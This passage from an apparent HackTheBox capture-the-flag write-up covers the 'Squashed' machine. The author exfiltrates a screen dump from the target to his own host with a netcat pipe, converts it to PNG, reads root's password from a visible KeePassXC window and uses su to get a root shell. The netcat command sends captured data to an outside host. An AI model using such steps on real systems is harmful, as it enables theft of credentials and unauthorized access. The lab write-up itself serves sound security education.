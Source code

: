 I’ll start `nc` listening on my VM on port 9009 piping output to
`screenshot.wxd` with the command `nc -lnvp 9009 > screenshot.wxd`. Then on
Squashed, I’ll cat the file and pipe it into `nc` connecting to that port:

    
    
    alex@squashed:/home/alex$ cat /tmp/0xdf.xwd | nc 10.10.14.6 9009
    ^C
    

It just hangs, so after a few seconds I’ll Ctrl-c to kill it. At my system,
there’s now a file:

    
    
    oxdf@hacky$ nc -lnvp 9009 > screenshot.xwd
    Listening on 0.0.0.0 9009
    Connection received on 10.10.11.191 36294
    oxdf@hacky$ file screenshot.xwd
    screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
    

It’s always a good idea to check the hash of both files to make sure they are
the same:

    
    
    alex@squashed:/home/alex$ md5sum /tmp/0xdf.xwd
    839e737b096f08832fcfb60d12d2697a  /tmp/0xdf.xwd
    
    
    
    oxdf@hacky$ md5sum screenshot.xwd
    839e737b096f08832fcfb60d12d2697a  screenshot.xwd
    

#### Convert

To convert this to a file format that I can easily open, I’ll use the
`convert` utility from [ImageMagick](https://imagemagick.org/index.php)
(install with `sudo apt install imagemagick`). In this case, since it’s just a
format switch, I’ll just give it input and output, and it fill figure out the
formats based on the extensions:

    
    
    oxdf@hacky$ convert screenshot.xwd screenshot.png
    oxdf@hacky$ file screenshot.png
    screenshot.png: PNG image data, 800 x 600, 8-bit/color RGB, non-interlaced
    

It opens to show the KeePassXC window full screen, with root’s password
visible:

![](https://0xdfimages.gitlab.io/img/squashed-screenshot-16682055639552.png)

### su

With root’s password, I can run `su` to get a shell as root:

    
    
    alex@squashed:/home/alex$ su -
    Password: 
    root@squashed:~#
    

And read `root.txt`:

    
    
    root@squashed:~# cat root.txt
    5681c25c************************
    

[](/2022/11/21/htb-squashed.html)

